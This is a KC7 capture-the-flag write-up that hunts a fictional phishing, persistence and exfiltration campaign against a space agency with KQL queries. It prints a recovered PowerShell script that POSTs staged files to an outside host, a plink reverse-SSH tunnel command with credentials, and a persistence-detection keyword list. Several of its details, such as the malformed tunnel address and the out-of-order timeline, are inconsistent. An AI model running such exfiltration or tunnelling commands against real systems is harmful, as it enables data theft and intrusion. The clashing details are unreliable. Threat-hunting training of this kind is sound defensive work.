





# Sunlands - A Tough Space

A Kusto Query Language (KQL) investigation into a multi-stage phishing and lateral movement campaign targeting a space agency's energy grid blueprints.


*KC7 challenge answer showing the attacker's TLD '.lu;lu' indicating foreign interference based on analysis of attacker infrastructure.*



*CyberChef decoding of the base64-encoded exfiltration string revealing the YouTube URL used as a data exfiltration channel by the attackers.*



*KQL query on AuthenticationEvents identifying the compromised domain admin account 'jeburbage_domain_admin' on DOMAIN_CONTROLLER_SERVER, representing successful privilege escalation.*



*KQL query on ProcessEvents revealing base64-encoded PowerShell commands executed on compromised hosts QT2K-LAPTOP and MEMM-DESKTOP, with decoded commands visible showing attacker activity.*



*KQL query on OutboundNetworkEvents showing multiple internal hosts downloading EnergyGrid-Blueprints.docx from the malicious domain renewablesolutionsgriddefender.com over time, establishing a timeline of compromise across the network.*


  

---

## Challenge Overview

| Field | Value |
|-------|-------|
| **Challenge Name** | Sunlands - A Tough Space |
| **Author** | David Brown |
| **Platform** | KC7 (Azure Data Explorer / KQL) |
| **Category** | Threat Hunting, Digital Forensics & Incident Response |
| **Difficulty** | Medium |
| **Tools Used** | KQL (Kusto Query Language), Azure Data Explorer, CyberChef |
| **Target/Box** | SASA (Space Agency) Network Environment |

**Scenario:**

Security analysts at the Sunlands Aerospace and Space Administration (SASA) detected suspicious activity involving energy grid blueprints. The investigation revealed a sophisticated phishing campaign leveraging fake International Space Summit domains to deliver malicious documents. Threat actors established persistence through SSH tunneling, scheduled tasks, and lateral movement across the network, ultimately compromising 175 hosts associated with senior staff. The investigation required KQL-based log analysis across SecurityAlerts, Email, FileCreationEvents, ProcessEvents, OutboundNetworkEvents, PassiveDns, Employees, and AuthenticationEvents tables.

---

## Attack Timeline

| Date/Time | Event |
|-----------|-------|
| 2123-07-01T15:00:26Z | First network reconnaissance activity (nbtstat) on OWQK-MACHINE |
| 2123-07-02T15:00:04Z | SSH reverse tunnel established on ZKVB-MACHINE using plink[.]exe |
| 2123-07-19T15:25:51Z | Phishing email sent from urgent[@]verizon[.]com to monica_aguila[@]space[.]gov[.]su |
| 2123-07-19T15:35:09Z | First download of EnergyGrid-Blueprints.docx from renewablesolutionsgriddefender[.]com |
| 2123-07-19T15:35:25Z | File creation of EnergyGrid-Blueprints.docx on NKIG-DESKTOP via Edge[.]exe |
| 2123-07-19T15:36:13Z | Security alert triggered for quarantined file on NKIG-DESKTOP |
| 2123-07-19T12:00:03Z | First scheduled task persistence established on 9XQO-DESKTOP |
| 2123-07-19T12:01:29Z | Data staging: snlnds_s3cr3ts.rar created on MEMM-DESKTOP |
| 2123-07-19T12:21:45Z | Data staging: snlnds_s3cr3ts.rar replicated to QT2K-LAPTOP |
| 2123-07-29T08:35:56Z | Continued malicious file downloads from renewablesolutionspowergrid[.]com |

---

## Solution Walkthrough

### Step 1 — Initial Alert Triage

The investigation began with a high-severity security alert about a suspicious file quarantined on a host.

```kql
SecurityAlerts
| where description contains "grid"
// Result: Alert for EnergyGrid-Blueprints.docx on NKIG-DESKTOP at 2123-07-19T15:36:13.000Z
```

**Suspicious file:** EnergyGrid-Blueprints.docx  
**Affected hostname:** NKIG-DESKTOP  
**Alert severity:** high  
**SHA256:** 6a04f6eb2d3a01ec25cdb56703306af41f653ad983f3697d2cab95d9d223bda

### Step 2 — User Attribution

Identified the employee associated with the compromised host to understand the attack's initial target.

```kql
Employees
| where hostname == "NKIG-DESKTOP"
// Result: Monica Aguila (moaguila), Intern role, IP 10.10.3.181
```

**Employee name:** Monica Aguila  
**Username:** moaguila  
**Role:** Intern  
**Email:** monica_aguila[@]space[.]gov[.]su  
**IP address:** 10[.]10[.]3[.]181

### Step 3 — Phishing Email Analysis

Traced the delivery vector of the malicious file to identify attacker infrastructure.

```kql
Email
| where recipient == "monica_aguila@space.gov.su"
| where link contains "EnergyGrid-Blueprints.docx"
// Result: Email from urgent@verizon.com with malicious link
```

**Sender:** urgent[@]verizon[.]com  
**Reply-to:** energygrid[@]protonmail[.]com  
**Subject:** [EXTERNAL] Stellar clear series leaders begins traditional had among obsession drama  
**Malicious URL:** hxxp://renewablesolutionsgriddefender[.]com/images/search/public/EnergyGrid-Blueprints[.]docx  
**Email verdict:** CLEAN (security control bypass)

### Step 4 — Attacker Infrastructure Attribution

Identified the webmail service headquarters used by the attacker through the reply-to address.

**Webmail service headquarters:** Switzerland (ProtonMail)  
**Delivery domain:** renewablesolutionsgriddefender[.]com

### Step 5 — File Download Analysis

Determined which process was responsible for downloading the malicious file.

```kql
FileCreationEvents
| where hostname == "NKIG-DESKTOP"
| where filename == "EnergyGrid-Blueprints.docx"
// Result: Downloaded via Edge.exe at 2123-07-19T15:35:25.000Z
```

**Process name:** Edge[.]exe  
**File path:** C:\Users\moaguila\Downloads\EnergyGrid-Blueprints.docx  
**Username:** moaguila

### Step 6 — Infrastructure Mapping via Passive DNS

Mapped the attacker's domain infrastructure using passive DNS analysis.

```kql
PassiveDns
| where domain contains "renewablesolutionsgriddefender.com"
| distinct ip
// Result: 10 unique IP addresses
```

**Total unique IPs:** 10  
**Sample IPs:** 223[.]87[.]124[.]88, 217[.]14[.]27[.]8, 106[.]62[.]45[.]33

```kql
PassiveDns
| where ip in ("223.87.124.88", "217.14.27.8", "106.62.45.33", "218.129.158.65",
"155.98.31.40", "16.225.12.208", "33.114.78.79", "174.238.73.68", "76.85.33.80",
"135.228.64.41")
| distinct domain
// Result: 11 related domains sharing infrastructure
```

**Total domains:** 11  
**Domain pattern:** Variations combining "renewable", "solutions", "energy", "corp", "grid", "defender", "powergrid"

### Step 7 — Victim Scope Assessment

Identified the scale of the campaign by counting affected employees.

```kql
OutboundNetworkEvents
| where url has_any (
    "renewablesolutionspowergrid.com",
    "energycorp-powergrid.com",
    "renewablesolutions-powergrid.com",
    "energycorpgriddefender.com",
    "renewablesolutions-griddefender.com",
    "griddefenderpowergrid.com",
    "renewablesolutionsgriddefender.com",
    "renewablesolutionsenergycorp.com",
    "renewablesolutions-energycorp.com",
    "griddefender-powergrid.com",
    "energycorp-griddefender.com"
)
| distinct src_ip
// Result: 39 employees visited malicious domains
```

**Affected employees:** 39 unique internal IP addresses

### Step 8 — Malicious File Distribution Analysis

Identified all files distributed through the attacker infrastructure.

```kql
OutboundNetworkEvents
| where url has_any (
    "renewablesolutionspowergrid.com",
    "energycorp-powergrid.com",
    "renewablesolutions-powergrid.com",
    "energycorpgriddefender.com",
    "renewablesolutions-griddefender.com",
    "griddefenderpowergrid.com",
    "renewablesolutionsgriddefender.com",
    "renewablesolutionsenergycorp.com",
    "renewablesolutions-energycorp.com",
    "griddefender-powergrid.com",
    "energycorp-griddefender.com"
)
| where url has_any (".exe", ".zip", ".pdf", ".docx", ".ps1", ".bat", ".dll", ".msi", ".xlsx", ".lnk")
| extend filename = tostring(split(url, "/")[-1])
| summarize
    total_downloads = count(),
    unique_files = dcount(filename),
    files = make_set(filename)
| project total_downloads, unique_files, files
// Result: 5 unique files, 39 total downloads
```

**Unique malicious files:** 5  
**Total downloads:** 39  
**Files:** RenewableEnergy-Secrets.lnk, EnergyCybersecurity_Report.xlsx, GridDefender_Technical_Doc.xlsx

### Step 9 — Most Downloaded File Identification

Determined the primary distribution file used in the campaign.

```kql
OutboundNetworkEvents
| where url has_any (
    "renewablesolutionspowergrid.com",
    "energycorp-powergrid.com",
    "renewablesolutions-powergrid.com",
    "energycorpgriddefender.com",
    "renewablesolutions-griddefender.com",
    "griddefenderpowergrid.com",
    "renewablesolutionsgriddefender.com",
    "renewablesolutionsenergycorp.com",
    "renewablesolutions-energycorp.com",
    "griddefender-powergrid.com",
    "energycorp-griddefender.com"
)
| where url has_any (".exe", ".zip", ".pdf", ".docx", ".ps1", ".bat", ".dll", ".msi", ".xlsx", ".lnk")
| extend filename = tostring(split(url, "/")[-1])
| summarize download_count = count() by filename
| top 1 by download_count desc
// Result: GridDefender_Technical_Doc.xlsx with 12 downloads
```

**Most downloaded file:** GridDefender_Technical_Doc.xlsx  
**Download count:** 12

### Step 10 — Role-Based Impact Analysis

Analyzed which employee roles were most affected by the malicious downloads.

```kql
Employees
| where ip_addr in ("10.10.5.127", "10.10.4.240", "10.10.0.185", "10.10.0.40",
"10.10.3.188", "10.10.3.181", "10.10.3.95", "10.10.1.28", "10.10.0.8", "10.10.0.91",
"10.10.1.14", "10.10.2.112", "10.10.5.67", "10.10.4.228", "10.10.0.22", "10.10.5.30",
"10.10.3.213", "10.10.3.187", "10.10.5.114", "10.10.3.39", "10.10.4.91", "10.10.4.35",
"10.10.0.176", "10.10.1.5", "10.10.3.161", "10.10.4.14", "10.10.1.131", "10.10.3.217",
"10.10.0.36", "10.10.5.81", "10.10.2.171", "10.10.0.184", "10.10.0.129", "10.10.3.10",
"10.10.5.13", "10.10.5.21", "10.10.5.174", "10.10.1.7")
| summarize count() by role
| sort by count_ desc
// Result: Intern role most affected with 8 victims
```

**Most affected role:** Intern  
**Victim count:** 8

### Step 11 — First Victim Identification

Identified the initial victim who downloaded malicious files.

```kql
Employees
| where ip_addr == "10.10.5.127"
// Result: Wilbert Wiemer at IP 10.10.5.127
```

**First victim:** Wilbert Wiemer  
**IP address:** 10[.]10[.]5[.]127  
**Timestamp:** 2122-02-15T07:01:23Z

### Step 12 — Encoded Message Analysis (Bonus Challenge)

Decoded a multi-layered obfuscated message using CyberChef.

**Encoded input:** `TDMtRDlOeDFYczg9aT91cGduai96YnAucm9oZThicCF5amxrZC5aamlSFC5ram91L3paYQ==`

**Decoding process:**
1. Base64 decode
2. String reversal
3. ROT13 cipher

**Decoded output:** hxxps://www[.]youtube[.]com/watch?v=8fK1kA9Q-3Y  
**Result reference:** "Space Cadet" (Metro Boomin song)

### Step 13 — Domain Controller Compromise

Identified compromised privileged accounts with domain-level access.

```kql
AuthenticationEvents
| where hostname contains "domain"
| project hostname, username
// Result: jeburbage_domain_admin on DOMAIN_CONTROLLER_SERVER
```

**Compromised account:** jeburbage_domain_admin  
**Hostname:** DOMAIN_CONTROLLER_SERVER  
**Account type:** Domain administrator with full control

### Step 14 — Pivot Host Identification

Traced the lateral movement path to identify the compromised account used to access the domain controller.

```kql
Employees
| where ip_addr == "10.10.0.236"
// Result: David Cusack (dacusack)
```

**Pivot account:** dacusack (David Cusack)  
**IP address:** 10[.]10[.]0[.]236  
**Email:** david_cusack[@]space[.]gov[.]su

### Step 15 — Data Staging Discovery

Identified files staged for exfiltration.

```kql
FileCreationEvents
| where filename == "snlnds_s3cr3ts.rar"
// Result: RAR archive created on multiple systems
```

**Staged file:** snlnds_s3cr3ts.rar  
**File path:** C:\Users\Public\Documents\s3cr3ts\snlnds_s3cr3ts.rar  
**Systems:** MEMM-DESKTOP (resunshine), QT2K-LAPTOP (wiltblend)  
**Content:** United Sunlands' sensitive rocket tech and spaceport deal information

### Step 16 — Exfiltration Script Analysis

Recovered PowerShell exfiltration script from process command lines.

```powershell
$sourcePath = 'C:\Users\Public\Documents\$3cr3ts\' # Source folder
$destinationURL = 'http://spaceresearch.as/exfil/' # Destination URL

# Get all files recursively in the source directory
$files = Get-ChildItem -Path $sourcePath -File -Recurse

# Iterate through each file and send to the external location
foreach ($file in $files) {
    $filePath = $file.FullName
    $destination = $destinationURL + $file.Name
    
    # Use Invoke-RestMethod to send the file via HTTP POST
    Invoke-RestMethod -Uri $destination -Method Post -InFile $filePath
}
```

**Exfiltration destination:** hxxp://spaceresearch[.]as/exfil/  
**Method:** HTTP POST via Invoke-RestMethod

### Step 17 — International Space Summit Campaign

Identified a separate phishing campaign targeting space summit attendees.

```kql
OutboundNetworkEvents
| where url contains "summit"
| distinct url
// Result: Multiple URLs from intlspacesummit2123.info domain
```

**Primary domain:** intlspacesummit2123[.]info  
**Campaign theme:** International Space Summit 2123

### Step 18 — Foreign Infrastructure Attribution

Identified foreign TLD usage indicating state-sponsored or foreign interference.

```kql
OutboundNetworkEvents
| where url contains "intlspacesummit2123.info"
| where url contains "redirect"
| distinct url
// Result: Redirects to .lu (Luxembourg) domains
```

**Foreign TLD:** .lu (Luxembourg)  
**Redirect domains:** satellite-space[.]lu, space-rocket[.]lu

### Step 19 — Space Summit File Distribution

Analyzed file distribution from the International Space Summit campaign.

```kql
OutboundNetworkEvents
| where url has "intlspacesummit2123.info"
   or url has ".lu"
| extend filename = tostring(split(url, "/")[-1])
| extend filename = tostring(split(filename, "?")[0])
| extend filename = tostring(split(filename, "#")[0])
| summarize download_count = count() by filename
| sort by download_count desc
// Result: AsteroidMiningBrief.ppt most downloaded
```

**Most common file:** AsteroidMiningBrief.ppt  
**Download count:** 13

### Step 20 — SSH Tunneling Discovery

Identified post-exploitation persistence via SSH reverse tunnel.

```kql
FileCreationEvents
| where filename contains "AsteroidMiningBrief.ppt"
| where hostname == "ZKVB-MACHINE"

ProcessEvents
| where hostname == "ZKVB-MACHINE"
| where timestamp >= datetime(2123-07-02T15:00:04.000Z)
// Result: plink.exe command establishing reverse tunnel
```

**Command:** `powershell.exe /c echo | plink.exe -N -T -R 0.0.0.0:12531127.0.0.1:3389 166.127.104.95 -P 22 -l forward -pw Aliens!:D -no-antispoof`

**Remote server:** 166[.]127[.]104[.]95  
**Username:** forward  
**Password:** Aliens!:D  
**Tunneled service:** RDP (port 3389)

### Step 21 — Network Reconnaissance Detection

Identified network discovery commands executed post-compromise.

```kql
ProcessEvents
| where process_commandline contains "nbtstat"
| where username != "System"
| project timestamp, hostname, process_commandline, username
| sort by timestamp asc
// Result: First reconnaissance on OWQK-MACHINE at 2123-07-01T15:00:26Z
```

**First victim host:** OWQK-MACHINE  
**User:** zamcclard  
**Commands:** nbtstat -n, nbtstat -s  
**Technique:** NetBIOS enumeration

### Step 22 — Persistence Mechanism Identification

Detected scheduled task persistence used to maintain access.

```kql
ProcessEvents
| where process_commandline has_any (
    // Registry persistence
    "reg add", "CurrentVersion\\Run", "CurrentVersion\\RunOnce",
    // Scheduled tasks
    "schtasks", "at.exe",
    // Services
    "sc create", "sc config", "New-Service",
    // Startup folder
    "startup",
    // WMI persistence
    "wmic", "Subscribe",
    // Boot persistence
    "bcdedit",
    // DLL hijacking
    "AppInit_DLLs",
    // PowerShell persistence
    "New-ScheduledTask", "Register-ScheduledTask",
    // SSH authorized_keys
    "authorized_keys"
)
// Result: First scheduled task persistence at 2123-07-19T12:00:03Z
```

**First persistence timestamp:** 2123-07-19T12:00:03Z  
**Hostname:** 9XQO-DESKTOP  
**Command:** `schtasks /create /sc onstart /RU "SYSTEM" /tn "Microsoft\Windows\Management|..."`

### Step 23 — Organizational Impact Assessment

Determined the full scale of persistence deployment across employee roles.

```kql
let emp_host =
ProcessEvents
| where process_commandline has "schtasks /create /sc onstart /RU"
| distinct hostname;
Employees
| where hostname in (emp_host)
| summarize count() by role
| sort by count_ desc
// Result: 175 Senior Intern hosts compromised
```

**Most compromised role:** Senior Intern (tied with Government Liason)  
**Compromised hosts:** 175  
**Total unique roles affected:** 18

---

## IOC Table

| Type | Indicator | Context | Threat Actor |
|------|-----------|---------|--------------|
| Domain | renewablesolutionsgriddefender[.]com | Phishing delivery domain for EnergyGrid-Blueprints.docx | Unknown |
| Domain | renewablesolutionspowergrid[.]com | Secondary malicious file distribution domain | Unknown |
| Domain | energycorp-powergrid[.]com | Related infrastructure | Unknown |
| Domain | renewablesolutions-powergrid[.]com | Related infrastructure | Unknown |
| Domain | energycorpgriddefender[.]com | Related infrastructure | Unknown |
| Domain | renewablesolutions-griddefender[.]com | Related infrastructure | Unknown |
| Domain | griddefenderpowergrid[.]com | Related infrastructure | Unknown |
| Domain | renewablesolutionsenergycorp[.]com | Related infrastructure | Unknown |
| Domain | renewablesolutions-energycorp[.]com | Related infrastructure | Unknown |
| Domain | griddefender-powergrid[.]com | Related infrastructure | Unknown |
| Domain | energycorp-griddefender[.]com | Related infrastructure | Unknown |
| Domain | intlspacesummit2123[.]info | Phishing campaign targeting space summit attendees | Unknown |
| Domain | satellite-space[.]lu | Foreign redirect infrastructure | Unknown |
| Domain | space-rocket[.]lu | Foreign redirect infrastructure | Unknown |
| Domain | spaceresearch[.]as | Exfiltration destination | Unknown |
| Email | urgent[@]verizon[.]com | Phishing email sender (spoofed) | Unknown |
| Email | energygrid[@]protonmail[.]com | Reply-to address (Swiss webmail) | Unknown |
| IP | 166[.]127[.]104[.]95 | SSH tunnel remote server | Unknown |
| IP | 223[.]87[.]124[.]88 | Attacker infrastructure | Unknown |
| IP | 217[.]14[.]27[.]8 | Attacker infrastructure | Unknown |
| IP | 106[.]62[.]45[.]33 | Attacker infrastructure | Unknown |
| IP | 218[.]129[.]158[.]65 | Attacker infrastructure | Unknown |
| IP | 155[.]98[.]31[.]40 | Attacker infrastructure | Unknown |
| IP | 16[.]225[.]12[.]208 | Attacker infrastructure | Unknown |
| IP | 33[.]114[.]78[.]79 | Attacker infrastructure | Unknown |
| IP | 174[.]238[.]73[.]68 | Attacker infrastructure | Unknown |
| IP | 76[.]85[.]33[.]80 | Attacker infrastructure | Unknown |
| IP | 135[.]228[.]64[.]41 | Attacker infrastructure | Unknown |
| File | EnergyGrid-Blueprints.docx | Initial phishing lure (SHA256: 6a04f6eb2d3a01ec25cdb56703306af41f653ad983f3697d2cab95d9d223bda) | Unknown |
| File | GridDefender_Technical_Doc.xlsx | Secondary malicious document | Unknown |
| File | RenewableEnergy-Secrets.lnk | Malicious shortcut file | Unknown |
| File | EnergyCybersecurity_Report.xlsx | Malicious Excel file | Unknown |
| File | AsteroidMiningBrief.ppt | Phishing lure for space summit campaign | Unknown |
| File | snlnds_s3cr3ts.rar | Staged exfiltration archive | Unknown |
| Credential | forward / Aliens!:D | SSH tunnel authentication | Unknown |
| Account | jeburbage_domain_admin | Compromised domain admin account | Unknown |
| Account | dacusack | Pivot account for lateral movement | Unknown |
| Account | moaguila | Initial phishing victim (Monica Aguila, Intern) | Unknown |

---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence from Investigation |
|--------|--------------|----------------|----------------------------|
| Initial Access | T1566.002 | Phishing: Spearphishing Link | Phishing email from urgent[@]verizon[.]com with link to renewablesolutionsgriddefender[.]com |
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | Distribution of EnergyGrid-Blueprints.docx via malicious domains |
| Execution | T1204.002 | User Execution: Malicious File | Users downloaded and opened .docx, .ppt, .xlsx files from attacker domains |
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | PowerShell used for SSH tunnel establishment and exfiltration script |
| Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | schtasks /create /sc onstart /RU "SYSTEM" executed on 175+ hosts |
| Persistence | T1021.004 | Remote Services: SSH | SSH authorized_keys modification detected in persistence hunting query |
| Privilege Escalation | T1053.005 | Scheduled Task/Job: Scheduled Task | Scheduled tasks running as SYSTEM for privilege escalation |
| Defense Evasion | T1564.001 | Hide Artifacts: Hidden Files and Directories | Files staged in C:\Users\Public\Documents\s3cr3ts\ directory |
| Defense Evasion | T1027 | Obfuscated Files or Information | Multi-layer encoding (Base64, ROT13, string reversal) used in campaign |
| Credential Access | T1552.001 | Unsecured Credentials: Credentials In Files | Hardcoded password "Aliens!:D" in plink[.]exe command |
| Discovery | T1087.002 | Account Discovery: Domain Account | Authentication events queried for domain accounts |
| Discovery | T1018 | Remote System Discovery | nbtstat commands executed for NetBIOS enumeration |
| Discovery | T1016 | System Network Configuration Discovery | nbtstat -n and nbtstat -s commands for network information gathering |
| Lateral Movement | T1021.001 | Remote Services: Remote Desktop Protocol | RDP (port 3389) tunneled through SSH reverse connection |
| Lateral Movement | T1563.002 | Remote Service Session Hijacking: RDP Hijacking | Domain admin account used to access domain controller |
| Collection | T1560.001 | Archive Collected Data: Archive via Utility | snlnds_s3cr3ts.rar archive created for data staging |
| Collection | T1074.001 | Data Staged: Local Data Staging | Files staged in C:\Users\Public\Documents\s3cr3ts\ across multiple hosts |
| Command and Control | T1572 | Protocol Tunneling | SSH reverse tunnel from 127[.]0[.]0[.]1:3389 to 166[.]127[.]104[.]95:22 |
| Command and Control | T1090.001 | Proxy: Internal Proxy | Compromised hosts used as pivots for lateral movement |
| Exfiltration | T1048.003 | Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol | HTTP POST exfiltration to hxxp://spaceresearch[.]as/exfil/ |
| Exfiltration | T1567.002 | Exfiltration Over Web Service: Exfiltration to Cloud Storage | Invoke-RestMethod used to exfiltrate to external web service |

---

## Tools Used

- **Kusto Query Language (KQL)** — Primary investigation tool for querying SecurityAlerts, Email, FileCreationEvents, ProcessEvents, OutboundNetworkEvents, PassiveDns, Employees, and AuthenticationEvents tables
- **Azure Data Explorer** — Query platform for log analysis (kc7001.eastus/SASA database)
- **CyberChef** — Multi-layer decoding (Base64, string reversal, ROT13) for obfuscated data
- **plink[.]exe (PuTTY Link)** — SSH client used by threat actor for reverse tunneling
- **Edge[.]exe** — Browser used by victims to download malicious files
- **PowerShell** — Used for exfiltration script execution and tunnel establishment
- **schtasks** — Windows Task Scheduler used for persistence
- **nbtstat** — NetBIOS enumeration tool for network reconnaissance
- **Invoke-RestMethod** — PowerShell cmdlet used for data exfiltration via HTTP POST

---

## Key Takeaways

1. **Multi-stage Phishing Campaigns** — Attackers used two separate phishing campaigns (energy grid and space summit themes) with domain name variations to evade detection and target different victim groups. The use of 11 related domains across 10 IP addresses demonstrates sophisticated infrastructure planning.

2. **Swiss Webmail as Operational Security** — The use of ProtonMail (Switzerland-based) for the reply-to address and .lu (Luxembourg) TLDs for redirect infrastructure suggests operational security measures to avoid attribution and leverage foreign infrastructure with strong privacy laws.

3. **Persistence Through Scheduled Tasks** — The deployment of SYSTEM-level scheduled tasks across 175 hosts (primarily Senior Interns and Government Liaisons) demonstrates automated lateral movement and persistence establishment. Monitoring for "schtasks /create /sc onstart /RU SYSTEM" is a high-value detection opportunity.

4. **SSH Tunneling for RDP Access** — The use of plink[.]exe to establish reverse SSH tunnels for RDP access (port 3389) is a common technique to bypass firewall restrictions. Detection requires monitoring for plink[.]exe, ssh[.]exe, or unusual outbound port 22 connections with hardcoded credentials in command lines.

5. **Role-Based Targeting Analysis** — KQL correlation between compromised hosts and employee roles revealed that Interns were disproportionately affected in the initial phishing campaign, while Senior Interns and Government Liaisons were most impacted by the persistence deployment. This suggests either targeted selection or privilege escalation patterns.

6. **Data Staging Detection Opportunities** — The creation of .rar archives in C:\Users\Public\Documents\s3cr3ts\ across multiple systems is a clear indicator of data staging for exfiltration. Monitoring for archive creation (especially .rar, .zip, .7z) in public/shared directories combined with file naming patterns like "s3cr3ts" or "secrets" provides high-confidence detection.

---

## References

- [MITRE ATT&CK T1566.002 - Phishing: Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
- [MITRE ATT&CK T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [MITRE ATT&CK T1572 - Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)
- [MITRE ATT&CK T1048.003 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/003/)
- [MITRE ATT&CK T1021.001 - Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)
- [MITRE ATT&CK T1560.001 - Archive Collected Data](https://attack.mitre.org/techniques/T1560/001/)
- [KC7 Cyber Threat Hunting Platform](hxxps://kc7cyber[.]com/)
- [Microsoft KQL Documentation](https://learn.microsoft.com/en-us/azure/data-explorer/ku